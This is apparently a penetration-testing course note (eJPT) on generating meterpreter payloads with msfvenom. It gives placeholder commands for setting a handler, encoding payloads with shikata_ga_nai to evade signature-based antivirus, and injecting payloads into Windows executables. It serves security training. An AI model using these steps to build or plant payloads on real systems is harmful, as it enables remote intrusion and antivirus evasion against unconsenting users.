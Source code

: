 # 31 Payloads

# Generating Payloads with Msfvenom 

## Client-side Attacks

- A client-side attack is an attack vector that involves coercing a client to execute a malicious payload on their system that consequently connects back to the attacker when executed
- Client-side attacks typically utilize various social engineering techniques like generating malicious documents or portable executables (PEs)
- Client-side attacks take advantage of human vulnerabilities as opposed to vulnerabilities in services or software running on the target system
- Given that this attack vector involves the transfer and storage of a malicious payload on the client's system (disk), attackers need to be cognisant of AV (anti-virus) detection

## Msfvenom

- Msfvenom is a command line utility that can be used to generate and encode MSF payloads for various operating systems as well as web servers
- Msfvenom is a combination of two utilities, namely; msfpayload and msfencode
- We can use Msfvenom to generate a malicious meterpreter payload that can be transferred to a client target system. Once executed, it will connect back to our payload handler and provide us with remote access to the target system 

## Staged or Non-staged

- **Staged**
	- Payload is split into two parts
		1. Stage (the stager): a small piece of code that connects back to the attack's machine 
		2. Stage: the full payload (e.g. Meterpreter), which get downloaded and executed after the connection is established
	- Pro
		- Smaller size initially
		- Can bypass some defenses
	- Cons
		- Requires a stable network connection; if the second stage fails, the payload breaks
		- Can trigger more alerts in firewalls or IDS due to multiple stages

- **Non-staged**
	- It's executed all at once
	- Pro
		- More stable
		- Easier to debug and test
	- Cons
		- Larger size, so not ideal for exploits with strict size limits
		- Less flexible, since it can't dynamically load modules like Meterpreter extensions

### DEMO

```shell
msfvenom --list payloads
msfvenom --list formats

# Example
msfvenom -a <architecture> -p <payload> LHOST=<ip> LPORT=<port> -f <format> > /path/to/save/payload.format

# Set a handler
msf6: exploit(multi/handler)
msf6: set payload <payload>
```


# Encoding Payloads with Msfvenom

- Given that this attack vector involves the transfer and storage of a malicious payload on the client's system (disk), attackers need to be cognisant of AV detection
- Most end user AV solutions utilize signature based detection in order to identify malicious files or executables
- We can evade older signature based AV solutions by encoding our payloads
- Encoding is the process of modifying the payload shellcode with the objective of modifying the payload signature

## Shellcode

- Shellcode is a piece of code typically used as a payload for exploitation
- It gets its name from the term command shell, whereby shellcode is a piece of code that provides an attacker with a remote command shell on the target system

### DEMO

```shell
msfvenom --list encoders

# Example 
msfvenom -p <payload> lhost=<ip> lport=<port> -e <encoder> -f format > /path/to/save/encoded.format

# With shikata_ga_nai we can increase the number of iterations for better encoding
msfvenom -p <payload> lhost=<ip> lport=<port> -i <iterations> -e <encoder> -f format > /path/to/save/encoded.format
```


# Injecting Payloads into Windows Portable Executables

### DEMO

```shell
# Not maitain the original executable functions
msfvenom -p <payload> lhost=<ip> lport=<port> -i <iterations> -e <encoder> -f format -x <executable> > /path/to/save/encodedexecutable.format

# To maitain the original executable functions
Add the '-k', but dont work well

# Migrate the process after exploitation
meterpreter: run post/windows/manage/migrate 
```

#eJPT #cybersecurity 